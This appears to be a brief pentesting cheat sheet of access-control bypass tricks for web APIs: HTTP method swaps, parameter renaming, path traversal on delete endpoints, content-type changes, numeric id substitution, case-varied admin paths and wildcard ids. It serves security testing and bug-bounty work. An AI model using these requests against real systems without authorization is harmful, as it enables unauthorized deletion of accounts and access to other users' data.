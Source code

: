 * change HTTP method

```bash
GET /users/delete/victim_id  ->403
POST /users/delete/victim_id ->200
```

* Try replacing parameter names

```bash
Instead of this:
GET /api/albums?album_id=<album id>

Try This:
GET /api/albums?account_id=<account id>

Tip: There is a Burp extension called Paramalyzer which will help with this by remembering all the parameters you have passed to a host.
```

* Path Traversal

```bash
POST /users/delete/victim_id          ->403
POST /users/delete/my_id/..victim_id  ->200
```

* change request content-type

```bash
Content-Type: application/xml ->
Content-Type: application/json
```

* swap non-numeric with numeric id

```bash
GET /file?id=90djbkdbkdbd29dd
GET /file?id=302
```

* Missing Function Level Acess Control

```bash
GET /admin/profile ->401
GET /Admin/profile ->200
GET /ADMIN/profile ->200
GET /aDmin/profile ->200
GET /adMin/profile ->200
GET /admIn/profile ->200
GET /admiN/profile ->200
```

* send wildcard instead of an id

```bash
GET /api/users/user_id ->
GET /api/users/*
```
